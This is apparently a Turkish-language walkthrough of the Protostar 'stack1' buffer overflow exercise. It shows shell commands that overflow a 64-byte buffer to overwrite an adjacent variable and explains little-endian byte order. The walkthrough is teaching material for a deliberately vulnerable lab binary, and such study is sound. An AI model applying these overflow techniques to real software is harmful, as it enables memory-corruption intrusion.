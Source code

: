 ## Modified Değişkenini Değiştirilmesi
Aşağıdaki gibi bir kaç şekilde stack1 programına argüman yollayabiliriz.
``` shell
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA #64 tane A
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('A'*64)")
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC
Try again, you got 0x00000043
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC
Try again, you got 0x43434343
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('A'*64+'CCCC')")
Try again, you got 0x43434343
user@protostar:/opt/protostar/bin$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADEFG
Try again, you got 0x47464544
```

Bir önceki seviyede olduğu gibi 64 tane A(0x41) harfiyle bufferi dolduruyorum.
Bunu daha kısa bir şekilde pythondan yardım alarak doldurabileceğimi
söylemiştim. Burada dikkat çekmek istediğim son iki örnekte modified variable
yerine istediğimi yazdırabiliyor oluşum. Fakat yazdırırken dikkat etmem gereken
bir nokta sondan bir önceki 64 tane A ve *bir* tane C olan örnekte değerim
**0x00000043** olması. Yani benim her modified değişkenine yazdığım harf tersten
gözüküyor bunun sebebi bizim *Big Endian* olarak düşünmemiz ama makinaların
**Little Endian** olarak çalışmasından kaynaklanıyor. Aralarındaki temel fark en
kıymetli bitin solda yada sağda olmasıdır.

Madem istediğimiz şekilde modified değişkenini değiştirebiliyoruz o zaman bizden
istenen değeri yazmayı deniyelim. [[#Stack1.c|Stack1.c]]'deki
`if(modified==0x61626364)` değerine bakacak olursak. *0x61626364* değerini
modified değişkenine yazmak için bu sayıların ascii karşılığına pythondan yardım
alarak buluyorum.

``` shell
$ python3
Python 3.7.1 (default, Oct 22 2018, 10:41:28)
[GCC 8.2.1 20180831] on linux
>>> chr(0x61)
'a'
>>> chr(0x62)
'b'
>>> chr(0x63)
'c'
>>> chr(0x64)
'd'
```

Demek ki ben 64lük buffer'ı doldurduktan sonra *abcd* yazarsam bölümü
geçebilirim.
``` shell
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print('A'*64+'abcd')")
Try again, you got 0x64636261
```
